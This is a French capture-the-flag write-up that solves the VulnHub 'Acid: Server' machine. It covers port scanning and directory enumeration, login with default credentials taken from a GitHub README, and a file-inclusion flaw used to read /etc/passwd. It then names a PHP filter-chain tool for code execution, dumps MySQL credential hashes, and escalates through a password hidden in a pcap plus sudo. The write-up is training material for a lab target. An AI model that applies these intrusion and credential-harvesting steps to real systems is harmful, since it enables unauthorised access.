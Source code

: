 # Solution du CTF Acid: Server de VulnHub

[Server](https://vulnhub.com/series/acid,64/) est le premier CTF d'un duo proposé sur VulnHub sous la série *Acid*. Le CTF date du mois d'aout 2015.

```
Nmap scan report for 192.168.56.91
Host is up (0.00017s latency).
Not shown: 65534 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
33447/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
|_http-title: /Challenge
|_http-server-header: Apache/2.4.10 (Ubuntu)
```

On trouve un serveur HTTP sur un port non standard. La page d'index ne semble donner aucune information intéressante mais en regardant le code source on voit que le titre fait référence à un path :

```html
	<title>/Challenge</title>
```

Cela devient effectivement plus intéressant quand on se rend sur cette URL puisque l'on tombe sur une mire de login qui demande adresse email et mot de passe.

L'interface semble assez poussée graphiquement et techniquement avec l'utilisation d'une librairie javascript qui chiffre le mot de passe en sha512 pour qu'il ne transite pas en clair sur le réseau.

Les champt du formulaire ne semblent pas vulnérables à une injection SQL et comme je n'ai pas d'adresse email sous la main je m'oriente vers une énumération :

```
200       40l       80w     1333c http://192.168.56.91:33447/Challenge/index.php
200       12l       27w      309c http://192.168.56.91:33447/Challenge/error.php
200       40l       80w     1333c http://192.168.56.91:33447/Challenge/
302        0l        0w        0c http://192.168.56.91:33447/Challenge/include.php
200        3l        3w       17c http://192.168.56.91:33447/Challenge/.gitignore
200     2231l    12761w   811880c http://192.168.56.91:33447/Challenge/bg.jpg
200       36l      503w     2954c http://192.168.56.91:33447/Challenge/todo.txt
```

Le fichier texte est intéressant puisqu'on y retrouve une adresse email :

> TODO List
> =========
> 
> IMPORTANT: IF ANYONE WANTS TO START WORK ON ANY OF THESE THINGS, PLEASE LET ME KNOW (peredur@peredur.net) SO THAT I CAN KEEP TRACK ON WHO'S WORKING ON WHAT.
> 
> I'D HATE TO HAVE TO CHOOSE BETWEEN TWO COMPETING VERSIONS OF THE SAME THING.
> 
> --- snip ---

Une recherche sur Internet pour cette adresse email m'amène sur le projet [GitHub - peredurabefrog/phpSecureLogin: A secure login module for PHP](https://github.com/peredurabefrog/phpSecureLogin).

Ce qui m'intéresse se trouve à la fin du `README` :

> The code to create and populate the necessary tables is included in the 'secure_login.sql' file. It populates the members table with a single user with the following details:
> 
> Username : test_user Email : [test@example.com](mailto:test@example.com) Password : 6ZaxN2Vzm9NUJT2y

Si on saisit ces identifiants on est redirigé vers `protected_page.php` qui nous propose alors d'aller vers `include.php`.

Là un formulaire nous propose de saisir le chemin pour un fichier et si on saisit par exemple `/etc/passwd` on retrouve le contenu du fichier dans la page :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
--- snip ---
whoopsie:x:109:118::/nonexistent:/bin/false
acid:x:1000:1000:acid,,,:/home/acid:/bin/bash
mysql:x:111:126:MySQL Server,,,:/nonexistent:/bin/false
saman:x:1001:1001:,,,:/home/saman:/bin/bash
```

Je suis passé directement à un chainage de filtres PHP pour obtenir un RCE de cette faille d'inclusion (voir [GitHub - synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)).

Une fois un shell récupéré je récupère le mot de passe de la base de données (`mahek`) dans un fichier de configuration et je dump ce qui peut être utile :

```
mysql> select * from members;
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
| id | username  | email                  | password                                                                                                                         | salt                                                                                                                             |
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
|  1 | test_user | test@example.com       | 00807432eae173f652f2064bdca1b61b290b52d40e429a7d295d76a71084aa96c0233b82f1feac45529e0726559645acaed6f3ae58a286b9f075916ebf66cacc | f9aab579fc1b41ed0c44fe4ecdbfcdb4cb99b9023abb241a6db833288f4eea3c02f76e0d35204a8695077dcf81932aa59006423976224be0390395bae152d4ef |
|  2 | Acid      | acid@gmail.com         | 53b9bd4416ec581838c4bde217e09f1206b94cdb95475cddda862894f4dbbeec5ceacc2e116a64cb56d8384404738c5fd16478e0266962eeb3b61da1918d5931 | 8a93f1fa3259a90d9cfafcc1ef43dfc2d0a2d6cba0e8f2f9c23ae6b701364aa278bf5629585c3663ae3df5c7a3734ca6af4019d7ef897f45cb0acc056c3e735f |
|  3 | saman     | saman.j.l33t@gmail.com | c124191d7a267cb2b83b2c59a30b2e388b77f13955340015462bffc0d90cfa7b402ecb8e3fc82717f22b127c98a4afa9ed4f3661d824c6c57a1490f9963d9234 | be02c5499ba4fd559dc7809a7fae01d6f251e781dbdf5a7af2c7bca320006f1a5275d8020d5c539d116e54b1bf775018349c721151d9111ad1c3da8f6b9c9697 |
|  4 | Vivek     | vik.create@gmail.com   | fb8db054a75254633052d951002065109cd96fe990bf5a5d5bd1581d3578235a69224784b29870046d21d95567cdfe292221fbabce17201b23ca0fd5ee4fa20e | c72ccb8eb5ac065eca5341ff8ed296648b92bc99b511300a4525e8c17679ecce06e8038e582b539acf17008f9fd3a394d912f1158ef7f3d16d5f66ba32ca18bb |
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
```

Idem pour les autres comptes SQL :

```
mysql> select User,Password from mysql.user;
+------------------+-------------------------------------------+
| User             | Password                                  |
+------------------+-------------------------------------------+
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| acid             | *616B4539A8036DB2A22866D602041053E22D4D51 |
| debian-sys-maint | *97C926204D749AEFD0C330150D4CB3D7B5C57124 |
+------------------+-------------------------------------------+
```

Les hashs stockés dans la table members sont du `sha512` avec un salt comme l'indique la source du code utilisé :

```php
function login($email, $password, $mysqli) {
    // Using prepared statements means that SQL injection is not possible.
    if ($stmt = $mysqli->prepare("SELECT id, username, password, salt
                                  FROM members
                                  WHERE email = ? LIMIT 1")) {
        $stmt->bind_param('s', $email);  // Bind "$email" to parameter.
        $stmt->execute();    // Execute the prepared query.
        $stmt->store_result();

        // get variables from result.
        $stmt->bind_result($user_id, $username, $db_password, $salt);
        $stmt->fetch();

        // hash the password with the unique salt.
        $password = hash('sha512', $password . $salt);
```

J'ai tenté de casser ça avec `hashcat` sur `Penglab` sans succès.

Finalement j'ai trouvé un fichier intéressant en listant les fichiers de l'utilisateur `acid` (il a beaucoup de fichiers dont certains liés à vmware) :

```shellsession
www-data@acid:/var/www/html/Challenge$ find / -user acid 2> /dev/null  | grep -v vmware
/sbin/raw_vs_isi/hint.pcapng
/bin/pwn_me
/bin/pwn_me/chkrootkit.lsm
--- snip ---
```

On peut ouvrir le fichier pcapng avec `Wireshark` mais ici un simple `strings` suffira pour fouiller son contenu. Je trouve la phrase suivante :

> saman and now a days he's known by the alias of 1337hax0r

L'alias en question est accepté comme mot de passe qui nous mène à root :

```shellsession
www-data@acid:/var/www/html/Challenge$ su saman 
Password: 
saman@acid:/var/www/html/Challenge$ sudo -l
[sudo] password for saman: 
Matching Defaults entries for saman on acid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User saman may run the following commands on acid:
    (ALL : ALL) ALL
saman@acid:/var/www/html/Challenge$ sudo su
  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   
root@acid:/var/www/html/Challenge# cd /root
root@acid:~# ls
flag.txt
root@acid:~# cat flag.txt 


Dear Hax0r,


You have successfully completed the challenge.

I  hope you like it.


FLAG NAME: "Acid@Makke@Hax0r"


Kind & Best Regards

-ACID
facebook: https://facebook.com/m.avinash143
```

*Publié le 2 janvier 2023*
